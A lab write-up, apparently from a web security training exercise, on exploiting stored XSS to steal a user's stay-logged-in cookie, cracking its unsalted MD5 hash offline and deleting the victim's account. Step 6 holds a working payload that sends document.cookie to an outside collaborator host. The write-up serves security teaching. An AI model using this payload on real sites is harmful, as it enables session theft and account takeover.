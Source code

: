 # LAB: Offline password craingck

## Given:

- Target website stores user passwords as hashes.
- The lab contains an XSS vulnerability in the comments section.
- Credentials provided for `wiener: peter`.
- Target username: `carlos`.

## Objective:

- Obtain the `stay-logged-in` cookie of the target user `carlos`.
- Delete the account of user `carlos`.

## Key Concepts:

- XSS can be used to exfiltrate cookies and session data from other users.
- Persistent login cookies (`stay-logged-in`) may contain sensitive information, such as hashed passwords.
- Weak hashing (e.g., unsalted MD5) makes offline password cracking feasible.

## Steps Taken:

1. Proxy browser traffic through Burp Suite to intercept and analyze requests.
2. Log in with `wiener: peter` and explore the application, noting `/my-account` and the account deletion feature.
3. Observe that deleting an account requires entering the user's password for confirmation.
4. Use Burp Collaborator to generate a unique link for exfiltration.
5. Identify the XSS vulnerability in the comments section (textarea field).
6. Inject the following payload to exfiltrate cookies:
   ```html
   </textarea><script>
   fetch("https://<burp-collaborator-link>", {
     method: "POST",
     body: document.cookie,
     mode: "no-cors"
   })
   </script>
   ```
7. Submit the comment and monitor Burp Collaborator for incoming requests from other users.
8. When a request arrives, extract the session and `stay-logged-in` cookie values for the target user (`carlos`).
9. Decode the `stay-logged-in` cookie (often Base64 encoded). Format is typically `carlos:<hashed_value>`.
10. Attempt to crack the hash using online databases or hash-cracking tools (MD5 in this case).
11. Use the cracked password to log in as `carlos`.
12. Navigate to the account deletion page and enter the cracked password to delete the account.

## Payloads Used:

| Payload # | Purpose                    | Example/Usage                                   |
| --------- | -------------------------- | ----------------------------------------------- |
| 1         | Exfiltrate cookies via XSS | See above HTML/JS payload for Burp Collaborator |

## Issues Encountered:

- Ensuring the XSS payload executed for the target user.
- Decoding and cracking the hash format of the cookie value.

## Solutions/Workarounds:

- Use Burp Collaborator to confirm exfiltration.
- Try multiple hash algorithms and online databases for cracking.

## Takeaways:

- XSS vulnerabilities can be leveraged to steal sensitive cookies and session data.
- Persistent cookies like `stay-logged-in` are a prime target for attackers.
- Weak or predictable cookie formats (e.g., unsalted MD5) are easily cracked offline.
- Always use strong, salted hashes for sensitive data.
- Account management features (like deletion) should require robust authentication.
- Regularly test for XSS and weak cookie management in web applications.

